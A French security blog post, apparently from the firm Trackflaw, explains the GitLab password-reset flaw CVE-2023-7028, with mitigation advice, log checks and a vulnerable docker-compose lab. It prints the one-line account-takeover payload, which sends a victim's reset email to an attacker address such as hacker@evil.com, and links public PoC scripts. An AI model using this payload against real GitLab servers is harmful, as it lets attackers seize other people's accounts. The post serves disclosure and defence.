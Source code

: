 ```yaml
---
title: "Compromettre des comptes Gitlab avec la vulnérabilité CVE-2023-7028"
description: "Cet article détaille comment Gitlab est vulnérable à la faille CVE-2023-7028 et pourquoi il ne faut pas l'exposer publiquement."
date: 2024-01-19T17:32:30+01:00
draft: false
images: [/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png]
featuredImage: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
featuredImagePreview: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
tags: ["Test d'intrusion", "Exploit", "Gitlab"]
---
```


# 😮 Exposer GitLab publiquement en 2024 : trop dangereux ?

<br>
<br>

Est ce que exposer son propre Gitlab est une bonne pratique de sécurité ? Et bien vous allez voir que **non**.

2024 commence fort et donne encore de bonnes raisons de **ne pas exposer ce service sur Internet** (mais plutôt de l'héberger derrière un VPN).

## Un début d'année sous haute tension

Le 11 janvier 2024, GitLab, la célèbre plateforme communautaire, a publié une annonce importante concernant les nouvelles versions `16.7.2, 16.6.4 et 16.5.6` pour GitLab Community Edition (CE) et Enterprise Edition (EE).

Deux vulnérabilités sont expliquées :

1. La vulnérabilité **CVE-2023-7028** 
    - CVSS de 10/10 😮
    - Elle permet la prise de contrôle d'un compte via la réinitialisation du mot de passe sans interaction de l'utilisateur.

2. La vulnérabilité **CVE-2023-5356** 
    - CVSS de 9.6/10 😟
    - Elle permet à un utilisateur d'abuser des intégrations Slack/Mattermost pour exécuter des commandes slash en tant qu'autre utilisateur.

## En bref

La vulnérabilité la plus problématique est la première : la **CVE-2023-7028**.

Loin d'être inoffensive, elle est très problématique :

- Elle permet de réinitialiser le mot de passe de n'importe quel utilisateur.
- La vulnérabilité est exploitable sans compte.
- Il est nécessaire de connaitre le mail de la victime.
- La charge tient en une ligne : `user[email][]=my.target@example.com&user[email][]=hacker@evil.com`

La deuxième vulnérabilité est tout aussi grave mais moins facilement exploitable.

## Exploitation

Pour exploiter cette vulnérabilité, le PoC est vraiment très simple :

```
user[email][]=valid@email.com&user[email][]=attacker@email.com
```

- `valid@email.com` est l'adresse de la victime
- `attacker@email.com` est l'adresse de l'attaquant

Une confusion est effectuée par GitLab rendant la possibilité à un attaquant d'écraser le mail de la victime par le sien 😮 !

Plus précisément, une modification a été apportée à la version `16.1.0` afin de permettre aux utilisateurs de réinitialiser leur mot de passe à l'aide d'une adresse électronique secondaire. La vulnérabilité résulte d'un bug dans le processus de vérification des email.

👉 Plus de détails sur le blog de GitLab : https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions


## Actions recommandées

Gitlab recommande les actions suivantes : 

1️⃣  **Mise à jour immédiate** : il est fortement conseillé de mettre à jour Gitlab vers la dernière version corrigée. Pour les utilisateurs n'ayant pas encore effectué de mise à jour, GitLab recommande de passer directement aux versions `16.7.3, 16.6.5, 16.5.7` ou ultérieures.

2️⃣ **Activer l'authentification à deux facteurs (2FA)**: GitLab conseille d'activer le 2FA pour tous les comptes. Cette sécurité empêche l'utilisation de cette vulnérabilité.

3️⃣ **Vérification de l'intégrité** : il est conseillé aux clients auto-gérés d'examiner leurs logs afin détecter toute tentative d'exploitation de ces vulnérabilités.

Exemple :

- Consulter le fichier `gitlab-rails/production_json.log` afin de vérifier qu'aucune requête pointant vers la route `/users/password` ne contienne **plusieurs adresses emails**.
- Consulter le fichier `gitlab-rails/audit_json.log` afin de vérifier que le champ `meta.caller_id` de `PasswordsController#create` et `target_details` ne contiennent pas **plusieurs adresses emails**.

## Automatisation

De nombreux PoC sont disponibles sur Internet permettant d'automatiser la vulnérabilité :

- Fait par un français talentueux : https://github.com/Vozec/CVE-2023-7028
- https://github.com/V1lu0/CVE-2023-7028

## Docker vulnérable

Pour les plus curieux, vous trouverez ci-dessous un docker compose vulnérable pour pratiquer cette vulnérabilité

```yaml
version: '3.6'
services:
  gitlab:
    image: 'gitlab/gitlab-ce:16.1.4-ce.0'
    restart: always
    hostname: 'gitlab.domain.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://gitlab.domain.com'
        gitlab_rails['smtp_enable'] = true
        gitlab_rails['smtp_address'] = "smtp_address"
        gitlab_rails['smtp_port'] = 587
        gitlab_rails['smtp_user_name'] = "smtp_user_name"
        gitlab_rails['smtp_password'] = "smtp_password"
        gitlab_rails['smtp_domain'] = "domain.com"
        gitlab_rails['smtp_authentication'] = "login"
        gitlab_rails['smtp_enable_starttls_auto'] = true
    ports:
      - '80:80'
      - '443:443'
      - '22:22'
    volumes:
      - './gitlab/config:/etc/gitlab'
      - './gitlab/logs:/var/log/gitlab'
      - './gitlab/data:/var/opt/gitlab'
```

## Démonstration

Petite démonstration ci-dessous pour présenter l'exploitation de la vulnérabilité :

<video src="/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/exploit.mp4" controls title="Exploitation de Gitlab avec la vulnérabilité CVE-2023-7028" style="width:100%"></video>

🙏 Patchez rapidement. Trackflaw est la pour vous aider dans cette tâche. Prenez contact avec nous sur https://trackflaw.com ou par email contact (@) trackflaw.com

## Sources

- https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions
